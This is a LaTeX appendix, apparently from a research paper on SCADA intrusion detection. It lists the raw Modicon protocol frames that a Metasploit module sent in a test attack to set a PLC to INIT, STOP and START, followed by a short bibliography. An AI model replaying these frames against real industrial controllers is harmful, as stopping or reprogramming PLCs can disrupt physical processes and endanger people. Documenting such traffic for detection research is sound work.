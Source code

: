 \documentclass[11pt,]{article}
\begin{document}
The Metasploit Framework is comprised of various modules. In the test
attack case, the modicon\_command module was used.

The frames sent in order to set the PLC to one of the following states:

INIT

\begin{verbatim}
00 5a 00 02
00 5a 00 01 00
00 5a 00 0a 00 + T' * 0xf9
00 5a 00 03 00
00 5a 00 03 04
00 5a 00 04
00 5a 00 01 00
00 5a 00 0a 00
00 5a 00 04
00 5a 00 04
00 5a 00 20 00 13 00 00 00 00 00 64 00
00 5a 00 20 00 13 00 64 00 00 00 9c 00
00 5a 00 20 00 14 00 00 00 00 00 64 00
00 5a 00 20 00 14 00 64 00 00 00 f6 00
00 5a 00 20 00 14 00 5a 01 00 00 f6 00
00 5a 00 20 00 14 00 5a 02 00 00 f6 00
00 5a 00 20 00 14 00 46 03 00 00 f6 00
00 5a 00 20 00 14 00 3c 04 00 00 f6 00
00 5a 00 20 00 14 00 32 05 00 00 f6 00
00 5a 00 20 00 14 00 28 06 00 00 0c 00
00 5a 00 20 00 13 00 00 00 00 00 64 00
00 5a 00 20 00 13 00 64 00 00 00 9c 00
00 5a 00 10 43 4c 00 00 0f
USER-714E74F21B
META-SPLOITMETA
00 5a 01 04
00 5a 01 50 15 00 01 0b
00 5a 01 50 15 00 01 07
00 5a 01 12
00 5a 01 04
00 5a 01 12
00 5a 01 04
00 5a 00 02
00 5a 00 58 01 00 00 00 00 ff ff 00 70
00 5a 00 58 07 01 80 00 00 00 00 fb 00
00 5a 01 04
00 5a 00 58 07 01 80 00 00 00 00 fb 00
\end{verbatim}

\newpage

STOP

\begin{verbatim}
00 5a 01 41 ff 00
00 5a 01 04
\end{verbatim}

START

\begin{verbatim}
00 5a 01 40 ff 00
00 5a 01 04
\end{verbatim}

\newpage

\section*{Bibliography}\label{bibliography}

{[}1{]}B. Zhu, ``SCADA-specific Intrusion Detection/Prevention Systems:
A Survey and Taxonomy,'' \emph{Network}, pp. 1--16, 2010 {[}Online{]}.
Available:
\url{http://www.eecs.berkeley.edu/Pubs/TechRpts/2014/EECS-2014-34.pdf}

{[}2{]}B. Zhu, A. Joseph, and S. Sastry, ``A taxonomy of cyber attacks
on SCADA systems,'' \emph{Proceedings - 2011 IEEE International
Conferences on Internet of Things and Cyber, Physical and Social
Computing, iThings/CPSCom 2011}, pp. 380--388, 2011.
\end{document}
